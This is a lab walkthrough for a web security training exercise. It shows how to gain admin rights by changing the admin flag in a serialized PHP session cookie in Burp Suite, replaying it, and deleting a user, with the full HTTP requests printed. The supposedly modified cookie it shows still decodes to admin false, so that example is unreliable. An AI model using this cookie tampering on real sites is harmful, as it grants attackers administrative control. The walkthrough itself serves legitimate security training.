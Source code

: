 # Modifying Serialized Objects

## Level
``APPRENTICE``

## Goal
This lab uses a serialization-based session mechanism and is vulnerable to privilege escalation as a result. To solve the lab, edit the serialized object in the session cookie to exploit this vulnerability and gain administrative privileges. Then, delete Carlos's account.

You can log in to your own account using the following credentials: ``wiener:peter``

## Prerequisites

1. You should have read the sections until this lab.
2. Burp Suite Community/Professional

## Video

[![Modifying Serialized Objects](http://img.youtube.com/vi/nD1haHhTrIM/0.jpg)](http://www.youtube.com/watch?v=nD1haHhTrIM)

## Start
You should configure your browser and proxy to intercept messages.

Your application looks similar to the following screenshot. Keep in mind that your products can have a different arrangement and of course, it can be different products. The lab environment will be generated automatically and that is the reason why things can be different. Click at the **Account login** link in the upper right of the window.

![Picture 1](images/1-lab/1-pic.png)

In the login form put in the username ``wiener`` and the password ``peter`` and click **Log In**.

![Picture 1](images/1-lab/2-pic.png)

Go to your proxy and look for a request that is similar to the following. Your host name is different to the host name in this request.

```http
POST /login HTTP/1.1
Host: acfc1f791f19ab3880196a6c00c10020.web-security-academy.net
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:79.0) Gecko/20100101 Firefox/79.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: de,en-US;q=0.7,en;q=0.3
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 30
Origin: https://acfc1f791f19ab3880196a6c00c10020.web-security-academy.net
Connection: close
Referer: https://acfc1f791f19ab3880196a6c00c10020.web-security-academy.net/login
Cookie: session=
Upgrade-Insecure-Requests: 1

username=wiener&password=peter
```

The response to this request contains the ``Set-Cookie`` header with a session cookie. This cookie is also different in your lab.

```http
HTTP/1.1 302 Found
Location: https://acfc1f791f19ab3880196a6c00c10020.web-security-academy.net
Set-Cookie: session=Tzo0OiJVc2VyIjoyOntzOjg6InVzZXJuYW1lIjtzOjY6IndpZW5lciI7czo1OiJhZG1pbiI7YjowO30%3d; Path=/; Secure; HttpOnly
Connection: close
Content-Length: 0
```

In the response mark the value of the ``Set-Cookie`` header completely (``Tzo0OiJVc2VyIjoyOntzOjg6InVzZXJuYW1lIjtzOjY6IndpZW5lciI7czo1OiJhZG1pbiI7YjowO30%3d``) and choose in the context menu **Send to Decoder**. Open the Decoder tab and click the **Decode as** button. In the dropdown field choose **URL** click the **Decode as** next to the new window and choose  **Base64**. Your Decoder tab should look similar to the following screenshot.

![Picture 1](images/1-lab/3-pic.png)

Notice that the ``admin`` attribute contains ``b:0``, this is a boolean value and means ``false``. Change this to ``b:1``. Now, click the **Encode as** button and choose **base64** then click the **Encode as** button again and choose **URL**. Your Decoder should look like this.

![Picture 1](images/1-lab/4-pic.png)

Open the Proxy tab and look for a request like this.

```http
GET / HTTP/1.1
Host: acfc1f791f19ab3880196a6c00c10020.web-security-academy.net
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:79.0) Gecko/20100101 Firefox/79.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: de,en-US;q=0.7,en;q=0.3
Accept-Encoding: gzip, deflate
Referer: https://acfc1f791f19ab3880196a6c00c10020.web-security-academy.net/login
Connection: close
Cookie: session=Tzo0OiJVc2VyIjoyOntzOjg6InVzZXJuYW1lIjtzOjY6IndpZW5lciI7czo1OiJhZG1pbiI7YjowO30%3d
Upgrade-Insecure-Requests: 1
```

Send this request to Burp Repeater and replace the value of the ``Cookie`` header with your created input.

```http
GET / HTTP/1.1
Host: acfc1f791f19ab3880196a6c00c10020.web-security-academy.net
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:79.0) Gecko/20100101 Firefox/79.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: de,en-US;q=0.7,en;q=0.3
Accept-Encoding: gzip, deflate
Referer: https://acfc1f791f19ab3880196a6c00c10020.web-security-academy.net/login
Connection: close
Cookie: session=%54%7a%6f%30%4f%69%4a%56%63%32%56%79%49%6a%6f%79%4f%6e%74%7a%4f%6a%67%36%49%6e%56%7a%5a%58%4a%75%59%57%31%6c%49%6a%74%7a%4f%6a%59%36%49%6e%64%70%5a%57%35%6c%63%69%49%37%63%7a%6f%31%4f%69%4a%68%5a%47%31%70%62%69%49%37%59%6a%6f%77%4f%33%30%3d
Upgrade-Insecure-Requests: 1
```

Open your browser with the lab application and hit the refresh button. Make sure to intercept traffic in your Burp Proxy. In the request replace the value of the ``Cookie`` header with your own code and send it to the application.

![Picture 1](images/1-lab/5-pic.png)

You see in the upper right of your browser window the **Admin panel** link. Click on this link, in the resulting request you have to replace the value of the ``Cookie`` header again.

![Picture 1](images/1-lab/6-pic.png)

You can delete ``carlos`` and this finishes the lab. If you click the **Delete** link you have to replace the value of the ``Cookie`` header again.

![Picture 1](images/1-lab/7-pic.png)
